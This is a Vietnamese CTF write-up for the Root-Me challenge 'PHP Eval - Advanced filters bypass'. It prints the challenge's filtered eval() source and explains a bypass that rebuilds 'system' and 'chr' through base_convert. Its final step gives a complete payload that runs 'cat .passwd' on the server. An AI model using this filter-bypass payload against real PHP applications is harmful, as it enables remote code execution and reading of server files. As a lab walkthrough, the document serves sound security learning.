


# PHP Eval

**Tên challenge:**  Basics of calculus

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval-Advanced-filters-bypass)

**Tác giả challenge:** Podalirius

**Mục tiêu challenge:** This calculator web application has filters to prevent code execution, prove you can bypass them by retreiving the flag !

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, Challenge cung cấp cho ta Source Code và Website có giao diện khá đơn giản, chỉ có 1 tính năng Input tính toán duy nhất:



Ta thử click vào Button `Give me the result !` thì Website trả về kết quả sau:
```
string(3) "1+1"
2
```

**B2:** Ta bắt đầu đi sâu vào Source Code mà Challenge cung cấp để hiểu rõ về cách hoạt động của nó:
```
<?php
 
error_reporting(0);
 
function safe_eval($calculus) {
   preg_match_all("/([a-z_]+)/", strtolower($calculus), $words);
   $words = $words[0];
 
   $accepted_words = ['base_convert', 'pi'];
   $alphabet = str_split('_abcdefghijklmnopqrstuvwxyz0123456789.+-*/%()[],');
 
   var_dump($calculus);
 
   $safe = true;
   for ($i = 0; $i < count($words); $i++) {
       if (strlen($words[$i]) && (array_search($words[$i], $accepted_words) === false)) {
           $safe = false;
       }
   }
 
   for ($i = 0; $i < strlen($calculus); $i++) {
       if (array_search($calculus[$i], $alphabet) === false) {
           $safe = false;
       }
   }
 
   if (strlen($calculus) > 256) return "Expression too long.";
   $ans = '';
   if (($safe) === false) $ans = "This calculus is not safe.";
   else eval('$ans=' . $calculus . ";");
   return $ans;
}
?>
 
<!DOCTYPE html>
<html lang="fr">
    <head>
        <meta charset="UTF-8">
        <link type="text/css" rel="stylesheet" href="./style.css">
        <title>PHP - Advanced filters bypass</title>
    </head>
 
    <body>
        <div class="content">
            <h2>PHP - Advanced filters bypass</h2>
            <br>
            <p>You can access the <a href="./?source">source code</a>.</p>
            <form class="" action="index.php" method="post">
                <table style="width:100%">
                    <tr>
                        <td><input class="forminput" type="text" name="calculus" value="1+1" size=50></td>
                    </tr>
                    <tr>
                        <td><button class="formsubmitbutton" type="submit">Give me the result !</button></td>
                    </tr>
                    <?php if (isset($_POST['calculus'])) : ?>
                    <tr> <td><br/></td> </tr>
                    <tr>
                        <td class="result">
                            <code style="width:100%;white-space: pre-wrap;"><?= @safe_eval($_POST['calculus']) ?></code>
                        </td>
                    </tr>
                    <?php endif ?>
                </table>
            </form>
        </div>
    </body>
</html>
```
Dựa vào Source Code, ta có thể xác định ngay lổ hổng nằm ở đoạn:
```
eval('$ans=' . $calculus . ";");
```
<u>**Giải thích:**</u>
* Hàm `eval` trong PHP là một hàm đặc biệt cho phép thực thi mã PHP được truyền dưới dạng chuỗi.

**VD:**
```
$code = 'echo "Hello, World!";';
eval($code);  // Kết quả: Hello, World!
```

Thông thường đến đây, ta chỉ việc đưa vào input `1; system("cat .passwd")` thì đoạn code `eval` trong Source sẽ có dạng:
```
eval("$ans= 1; system("cat .passwd"); ")
```

Tuy nhiên, ta không thể nhập bất kỳ chữ cái nào khác ngoài hai từ được cho phép là `base_convert` và `pi`, ngoài ra 1 số các ký tự sau vẫn được phép sử dụng:
```
0123456789.+-*/%()[],
```
=> Ta không thể inject input payload trên.

Vậy thì ta phải làm sao để thực thi được Command và đọc file `.passwd` nếu không thể nhập được chữ cái hay không thể dùng các ký tự như `$` hay `_` để sử dụng phương pháp tạo Webshell mà không cần chữ cái ?

<u>**Trả lời:**</u>
* Sau khi đọc và tìm hiểu thì ta thấy có thể lợi dụng hàm `base_convert` mà ứng dụng cho phép nhập. Cụ thể hàm `base_convert` có thể giúp ta chuyển ký tự cần thiết sang số thập phân rồi từ đó tạo thành hàm cần dùng.

**VD:**
```
echo base_convert("system", 36, 10)
=> 1751504350

echo base_convert(1751504350, 10, 36)
=> system
```

Về cơ bản thì bạn có thể hiểu lệnh đầu tiên là chuyển chữ `system` từ cơ số 36 sang cơ số thập phân và lệnh thứ hai là đảo ngược lại.

Tuy nhiên, có 1 vấn đề khác là hàm `base_convert()` chỉ chuyển đổi được các ký tự từ `[a -> z]` và `[0 -> 9]`, nhưng trong Command của mình chắc chắn phải sử dụng các ký tự khác như `space` hoặc dấu `/`,... Thế thì phải làm sao ?

Đơn giản thôi, như ở trên ta có thể dùng hàm `system`, vậy thì  tương tự ta cũng có thể dùng hàm `chr()` để in ra ký tự ta cần.

**VD:**
```
echo base_convert("chr", 36, 10)
=> 16191

echo base_convert(16191, 10, 36)(46) // chr(46)
=> .
```
Do `chr(46)` là dấu `.`

**B3:** Từ hướng đi trên, ta có thể tạo được payload `system(cat .passwd)` như sau:
```
base_convert(1751504350,10,36)(base_convert(15941,10,36).base_convert(16191,10,36)(32).base_convert(16191,10,36)(46).base_convert(1529794381,10,36))
```



=> Vậy là ta đã thành công đọc được `Flag`.